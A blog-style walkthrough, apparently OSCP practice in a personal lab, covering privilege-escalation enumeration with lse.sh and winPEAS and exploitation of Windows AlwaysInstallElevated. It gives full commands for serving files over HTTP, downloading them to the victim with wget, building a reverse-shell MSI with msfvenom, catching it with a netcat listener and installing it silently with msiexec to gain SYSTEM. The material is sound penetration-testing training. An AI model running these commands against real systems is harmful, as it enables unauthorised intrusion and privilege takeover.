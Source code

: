 ```yaml
---
layout: post
title: Windows and Linux Privilege Escalation Tools
subtitle: Abusing the AlwaysInstallElevated option for privilege escalation
tags: [Security, OSCP, Privilege escalation, Pentest, Red-teaming]
comments: true
---
```


In my preperation for the OSCP course i am learning about both linux and windows privilege escalations techniques.  
There are different escaltion techniques like escalation via kernel exploits, unqoted services, misconfigruations and stuff like that.
I built myself a lab to practice on.  
I have used <https://github.com/sagishahar/lpeworkshop> for the lab. Everything you need to know is in there. I did use a Win 10 machine so i had to remove the space between the md5 hashes to make the script work. Also i did create an admin account and disabled the realtime protection.

You can find the different privilege escalation manually or via automated scripts.  
The two tools i use for automation are linux-smart-enumeration for Linux <https://github.com/diego-treitos/linux-smart-enumeration> and
winPEAS for Windows <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

To use lse (Linux-smart-enumeration), first we nee to download the script. 
<div class="alert-info">git clone git clone https://github.com/diego-treitos/linux-smart-enumeration.git
</div>

Next we can use lse. you can use the -h parameter to show the options. I am not going to get in details about this.
<div class="alert-info">./lse.sh -h
</div>
Of course you have to run this on the victim-pc or victim-server.

To use winPEAS ,first we need to download the scripts.
<div class="alert-info">git clone git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git
</div>
As with the lse.sh script, you have to run this on the victim-pc or victim-server.

To transfer one of these files you have a few options you can use.
On linux you can start a http server to download the files via the shell on the victim.
Other options are to transfer these files via SMB or NetCat if it is available on the victim.
When transfering via SMB you have to setup SMB on kali.

To start a http server run the following command.
<div class="alert-info">sudo python3 -m http.server 80</div>
This will start a http on port 80 in the directory you currently are.

You can now download the lse.sh if you are on Linux or winPEAS.exe if you are on Windows.
Once you have transferd one of the files you can run it and read the output carefully for anything interesting that could lead to a privilege escalation.

Let's say we already have shell on a Windows victim we could start from there to download the winPEAS.exe file with the command below
<div class="alert-info">wget http://ip/winPEAS.exe -O winPEAS.exe</div>
![image](/assets/img/tranfser-winpeas.png)  
As you can see the shell we had does not understand weget. So we just type in powershell to get a powershell shell were we can run the wget comman.

Next run the winPEAS.exe and check for anything interesting that could lead to a privilege escalation.

We use the command .\winPEAS.exe -h to see what options we have.
![image](/assets/img/winpeas-h.png)
Let's run the following command
<div class="alert-info">.\winPEAS.exe windowscreds</div>
![image](/assets/img/winpeas-windowscreds.png)
The results shows us that AlwaysInstallElevated is set to 1 in both HKLM and HKCU!
This means that .MSI packages are installed with eleveated system privileges.

We now can run the following msfvenom commannd to create a payload with a reverse shell in it.
<div class="alert-info">msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi</div>
![image](/assets/img/msfvenom-msi.png)
Next we set up a http server to download the file from the victim
<div class="alert-info">sudo python3 -m http.server 80</div>
![image](/assets/img/http-server.png)

Next we download the reverse.msi to the victim
<div class="alert-info">wget http://ip/reverse.msi -O reverse.msi</div>
![image](/assets/img/wget-msi.png)

We now setup a new NetCat listener on Kali 
<div class="alert-info">sudo nc -nlvp 55</div>
![image](/assets/img/nc-listener-55.png)

Finally we run the following command in the victim shell
<div class="alert-info">msiexec /quiet /qn /i reverse.msi</div>
![image](/assets/img/msiexec.png)

Lets go back to the new nc listener and checkout if we did catch the reverse shell with system privileges.

![image](/assets/img/system-msiexec.png)

Yes, we have shell and running it as system!
